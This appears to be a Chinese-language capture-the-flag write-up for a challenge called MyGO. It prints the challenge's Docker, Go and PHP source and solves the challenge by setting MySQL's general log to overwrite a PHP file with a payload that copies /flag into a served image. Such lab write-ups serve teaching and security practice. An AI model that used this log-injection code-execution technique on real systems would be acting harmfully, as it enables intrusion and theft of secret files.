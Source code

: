 # Spirit CTF 2023#2 题解 - MyGO
![](./img/mygo_desc.png)

Hint
---

![](./img/mygo_hint_0.png)

这个是说`Dockerfile`没删

![](./img/mygo_hint_1.png)

这个是说有Go的源码

![](./img/mygo_hint_2.png)

这个是说可以任意文件读

Solution
---

```
/Dockerfile
```

```docker
FROM mysql:debian
EXPOSE 8080
RUN apt-get update && apt-get install -y php
COPY . /app
WORKDIR /app
ENTRYPOINT [ "./docker-entrypoint.sh" ]
```

```
/docker-entrypoint.sh
```

```bash
#!/bin/sh
mysqld --initialize-insecure --datadir=/var/lib/mysql
mysqld --user=root &

while true; do
    mysql -e "show databases;" > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        break
    fi
    sleep 1
done
mysql -e "CREATE USER 'root'@'127.0.0.1' IDENTIFIED BY 'root'; GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1'; FLUSH PRIVILEGES;"
chown -R mysql:mysql /app
echo $FLAG > /flag
unset FLAG
./mygo
```

```
/main.go
```

```go
// ...

func generateRandomImage() error {
	cmd := exec.Command("php", "./rand_img.php")
	_, err := cmd.Output()
	return err
}

func getHandler(db *sql.DB) func(http.ResponseWriter, *http.Request) {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.URL.Path != "/" {
			http.ServeFile(w, r, r.URL.Path[1:])
			return
		}
		generateRandomImage()
		data := ""
		if r.URL.Query().Get("go") != "" {
			result, err := query(r.URL.Query().Get("go"), db)
			if err != nil {
				data = err.Error()
			} else {
				data = result
			}

		}
		tmpl := template.Must(template.ParseFiles("index.html"))
		tmpl.Execute(w, data)
	}
}

func main() {
	// ...
	http.HandleFunc("/", getHandler(db))
	err = http.ListenAndServe(":8080", nil)
	if err != nil {
		log.Printf("[ERROR] Failed to listen and serve: %v\n", err)
		return
	}
}
```

```
/rand_img.php
```

```php
<?php
$files = glob('imgs/*.*');
$file = array_rand($files);
copy($files[$file], 'image.jpg');
?>
```

通过MySQL日志写入文件，借由`image.jpg`带出

```sql
set global general_log_file="/app/rand_img.php";
set global general_log = 'ON';
select "<?php file_put_contents('image.jpg', file_get_contents('/flag')); ?>"
```

![](./img/mygo_solution.png)
